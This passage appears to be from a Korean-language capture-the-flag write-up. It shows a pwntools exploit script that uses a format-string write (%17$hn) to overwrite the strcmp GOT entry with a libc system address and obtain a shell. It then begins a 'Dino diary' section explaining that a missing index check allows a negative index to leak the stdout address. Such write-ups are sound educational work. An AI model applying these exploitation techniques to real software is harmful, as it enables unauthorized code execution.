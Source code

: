 ```python
r.recvuntil("Your Input: \x1b[32m")
stack=int(r.recvn(14),16)-0xe0

slog("stack",stack)
r.sendline()

prdi=lib.search(asm("pop rdi;ret")).__next__()
binsh=lib.search(b"/bin/sh").__next__()
flag=0x402187

system=libc+0xAD516
system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff
# offset 14
payload = '%{}c'.format(system_low-5).encode()
payload += '%17$hn'.encode()
payload = payload.ljust(0x18,b'x')
payload += p64(b.got['strcmp'])

r.sendlineafter(">>> ","3")
r.sendlineafter(">>> ",payload)
r.sendline()

r.sendlineafter(">>> ","2")
# r.sendlineafter(">>> ","4")

r.interactive()
```

(stack leak 해서 orw rop 하려던 뻘짓코드가 조금 남아있다.)

---

## Dino diary

```cpp
int view_comment()
{
  int v1; // [rsp+Ch] [rbp-4h] BYREF

  printf("input view comment number: ");
  __isoc99_scanf("%d", &v1);
  printf("comment number: %d\n", *(unsigned int *)&com[0x20 * v1]);
  printf("name: %s\n", &com[32 * v1 + 4]);
  return printf("comment: %s\n", &com[32 * v1 + 10]);
}
```

view_comment 함수에서 인덱스 검사를 하지 않고, 음수를 줄 수 있기 때문에

bss 영역에서 com 보다 낮은 주소에 있는 stdout 주소를 leak 할 수 있다.
